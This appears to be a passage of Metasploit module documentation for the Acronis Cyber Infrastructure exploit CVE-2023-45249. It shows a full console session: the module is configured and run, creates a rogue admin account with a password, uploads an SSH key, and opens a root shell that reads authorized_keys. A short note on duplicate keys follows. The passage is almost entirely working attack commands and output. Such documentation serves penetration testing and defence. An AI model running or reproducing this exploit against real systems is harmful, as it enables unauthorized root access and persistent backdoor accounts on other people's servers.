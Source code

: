 ```msf
|      . o=++.+ o |
|       ==.B=oo. .|
|      .oSo=== .  |
|         o Bo    |
|          +.     |
|         . .     |
|          .      |
+----[SHA256]-----+
msf exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > set target 1
target => 1
msf exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > set PRIV_KEY_FILE /tmp/aci_rsa
PRIV_KEY_FILE => /tmp/aci_rsa
msf exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > set rhosts 192.168.201.5
rhosts => 192.168.201.5
msf exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 4.7.1-53
[*] Creating admin user gzarzyh with password XiloxPsdto for access at the Acronis Admin Portal.
[*] Saving admin credentials at the msf database.
[*] Using your own SSH private key file: /tmp/aci_rsa in PEM format.
[*] Saving SSH public and private key pair at the msf database.
[*] Uploading SSH public key at the Acronis Admin Portal.
[*] Authenticating with SSH private key.
[*] Executing Interactive SSH for generic/ssh/interact
[*] SSH session 1 opened (192.168.201.8:40083 -> 192.168.201.5:22) at 2024-09-20 09:40:22 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux aci-471-53.vstoragedomain 3.10.0-1160.41.1.vz7.183.5 #1 SMP Thu Sep 23 18:26:47 MSK 2021 x86_64 x86_64 x86_64 GNU/Linux
ls -l .ssh
total 4
-rw------- 1 root root 872 Sep 20 11:40 authorized_keys
cat .ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCauf4JO4xGHWulsoHHOwTXztTvJ4FQz92RTicFIqqHOPvR3vsXkWYJP4vE109/ZnUh64jsMqMb+x66q3+D86rts/ST4smpMjQpL2uwfrn3KHKwVmH7vMYb07q4F8M2nw4TgzYcsXONqAyxmbW0ZJ3P3CdlXXiXMvyUmy55OyVgaBnjoiE1GJxXnssCqPMkf0MaZfZqaaBk3onaKnJ4pRROHe1LEaagSM7dOHjS1F6ViVUYtcfFLQfXj4Q7WsWS5uSUy6HkxDn5PNvzUli7SDJ5aPTDqmmeDjzoVlUl7ZP4CYZlrTpZ1v0C0IuI3qlZmuHPuGaCDN7ymPsRUV71aqv3 root VSTOR-KEY-ID:1966f610-e22a-4147-bec3-4cfb945bdee7
```

## Limitations
When using your own SSH private key, be aware of the fact that you can not upload the same SSH public key twice via Acronis Web Portal.
Duplicate SSH public keys are not allowed and the exploit will fail if this occurs.
